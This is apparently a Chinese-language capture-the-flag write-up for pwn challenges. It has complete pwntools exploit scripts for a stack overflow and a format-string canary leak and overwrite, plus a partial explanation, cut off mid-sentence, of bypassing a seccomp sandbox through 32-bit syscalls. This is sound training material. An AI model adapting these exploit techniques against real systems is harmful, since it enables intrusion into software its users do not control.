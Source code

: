 CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
	p = process('./ezpwn')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

ret = 0x40101a
backdoors = 0x401539
key = b'astrobot'
p.recvuntil(b'\x21\x0a')
p.send(key)
p.recvuntil(b'something:')
payload = b'A' * 0x58 + p64(ret) + p64(backdoors)
p.sendline(payload)
p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor，开启了canary，有格式化字符串漏洞，可以用该漏洞泄漏canary。
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当地址为0x404068的值为0x56785678时便可以进入第二步，第二步则是简单的ret2text。
第一步用格式化字符串漏洞修改0x404068的值为0x56785678即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./fmt_str')
	pwnlib.gdb.attach(p, 'b *0x40127b')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f07e-58cc-74dd-b653-4657c29d274e')  

backdoor = 0x4013df
change_addr = 0x404068
ret = 0x40101a

p.sendlineafter(b'Input:', b'%25$p')
p.recvuntil(b'0x')
canary = int(p.recv(16), 16)
log.info(f'canary: {hex(canary)}')

payload = fmtstr_payload(8, {change_addr: 0x56785678}, write_size='byte')
p.sendlineafter(b'Input:', payload)
p.recvuntil(b'first step!')

payload2 = b'a' * 0x88 + p64(canary) + b'b' * 8 + p64(ret) + p64(backdoor)
p.sendline(payload2)

p.interactive()
```
shell:
![[Pasted image 20250210233359.png]]
## shellcode
![[Pasted image 20250210233720.png]]
可以看到是一个开启了sandbox的shellcode题。
![[Pasted image 20250210233928.png]]
sandbox仅允许使用rw,可以看到是缺o的，该怎么办呢，搜索后发现fstat函数的系统调用0x5是32位的open函数的系统调用，所以思路就是用mmap开辟一个新的空间来存放一段32位的程序然后在里面调用32位的open，然后再切换回
shell:
![[Pasted image 20250210233827.png]]
## walt改造的编译器
